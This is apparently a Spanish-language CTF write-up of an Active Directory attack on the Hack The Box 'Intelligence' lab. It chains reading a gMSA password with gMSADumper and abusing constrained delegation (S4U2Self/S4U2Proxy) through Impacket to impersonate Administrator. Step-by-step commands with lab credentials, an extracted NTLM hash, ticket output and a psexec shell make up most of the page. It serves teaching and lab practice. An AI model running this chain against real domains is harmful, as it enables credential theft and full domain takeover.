

# GMSA abusing and s4u delegation attack [ReadGMSAPassword] + [AllowedToDelegate]

## Descripción del ataque

Este ataque aprovecha dos permisos clave para comprometer un entorno de Active Directory mediante una **cuenta de servicio administrada de grupo (gMSA)**:

1. **ReadGMSAPassword**: Este permiso permite leer la contraseña Kerberos asociada a la cuenta gMSA. Utilizando herramientas como [`gMSADumper.py`](https://github.com/micahvandeusen/gMSADumper), se extrae el hash NTLM de la cuenta de servicio, lo que proporciona acceso inicial para realizar operaciones en su contexto.

2. **AllowedToDelegate**: Este permiso habilita la delegación de credenciales, lo que permite a la cuenta gMSA actuar en nombre de otros usuarios. Combinando los ataques **S4U2Self** y **S4U2Proxy**, es posible generar un **Ticket de Servicio (ST)** para un SPN arbitrario (por ejemplo, `cifs/dc.intelligence.htb`) e impersonar a un usuario privilegiado como `Administrator`.

El resultado final es el acceso a recursos protegidos o sistemas críticos, explotando la configuración indebida de permisos en la cuenta gMSA.

## Objetivo y ejemplo de uso en un CTF

- El objetivo es obtener un **Ticket de Servicio (ST)** para un SPN arbitrario (como `cifs/dc.intelligence.htb`) **impersonando a un usuario privilegiado**, aprovechando que la cuenta `svc_int$` tiene permiso para delegar.

---



---

## Herramientas utilizadas

- [`gMSADumper`](https://github.com/micahvandeusen/gMSADumper)
- [`Impacket`](https://github.com/fortra/impacket)
    - [`getTGT.py`](https://github.com/fortra/impacket/blob/master/examples/getTGT.py)
    - [`getST.py`](https://github.com/fortra/impacket/blob/master/examples/getST.py)
- [`ntpdate`](https://man7.org/linux/man-pages/man8/ntpdate.8.html)
- [`nxc`](https://github.com/NextCry/nxc)

---

### Pasos del ataque

1. Ejecutar `gMSADumper.py` para extraer el hash NTLM de la cuenta `svc_int$`:
     ```bash
     python3 gMSADumper.py -u 'TED.GRAVES' -p 'Mr.Teddy' -d 'intelligence.htb'
     ```
     Resultado:
     ```
     svc_int$:::b05dfb2636385604c6d36b0ca61e35cb
     ```

2. Utilizar `getTGT.py` para obtener un TGT usando el hash NTLM de `svc_int$`:
     ```bash
     getTGT.py 'INTELLIGENCE.HTB/svc_int$' -hashes :b05dfb2636385604c6d36b0ca61e35cb
     export KRB5CCNAME=/home/kali/svc_int$.ccache
     ```

3. Impersonar al usuario `Administrator` con `getST.py`:
     ```bash
     getST.py -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int$ -hashes :b05dfb2636385604c6d36b0ca61e35cb
     ```
     Resultado:
     ```
     [*] Requesting S4U2Proxy
     [*] Saving ticket in Administrator@WWW_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
     ```

4. Exportar el nuevo ticket:
     ```bash
     export KRB5CCNAME=Administrator@WWW_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
     ```

5. Conectarse al sistema objetivo con `psexec.py`:
     ```bash
     psexec.py -k -no-pass INTELLIGENCE.HTB/Administrator@dc.intelligence.htb
     ```

     Ejemplo de salida:
     ```
     Microsoft Windows [Version 10.0.17763.1879]
     (c) 2018 Microsoft Corporation. All rights reserved.

     C:\Windows\system32> type c:\Users\Administrator\Desktop\root.txt
     1375c5a7e7b13d7d9e063dd4629cb806
     ```

---

## Referencias


### ReadGMSAPassword

- [Retrieving Cleartext gMSA Passwords from Active Directory](https://www.dsinternals.com/en/retrieving-cleartext-gmsa-passwords-from-active-directory/)
- [DSInternals PowerShell Module](https://www.powershellgallery.com/packages/DSInternals/)
- [PSgMSAPwd](https://github.com/markgamache/gMSA/tree/master/PSgMSAPwd)
- [Active Directory Security - gMSA](https://adsecurity.org/?p=36)
- [Active Directory Security - Delegation Abuse](https://adsecurity.org/?p=2535)
- [Event ID 4662](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4662)
- [The Hacker Recipes - ReadGMSAPassword](https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword)

### AllowedToDelegate

- [S4U - Rubeus](https://github.com/GhostPack/Rubeus#s4u)
- [Trust: Years to Earn, Seconds to Break](https://labs.mwrinfosecurity.com/blog/trust-years-to-earn-seconds-to-break/)
- [S4U2Pwnage](https://blog.harmj0y.net/activedirectory/s4u2pwnage/)
- [Gentil Kiwi - S4U Tweet](https://twitter.com/gentilkiwi/status/806643377278173185)
- [Kerberos Delegation, SPNs, and More](https://www.coresecurity.com/blog/kerberos-delegation-spns-and-more)
- [From Kekeo to Rubeus](https://blog.harmj0y.net/redteaming/from-kekeo-to-rubeus/)
- [Another Word on Delegation](https://blog.harmj0y.net/redteaming/another-word-on-delegation/)
- [The Hacker Recipes - Delegations](https://www.thehacker.recipes/ad/movement/kerberos/delegations/constrained)
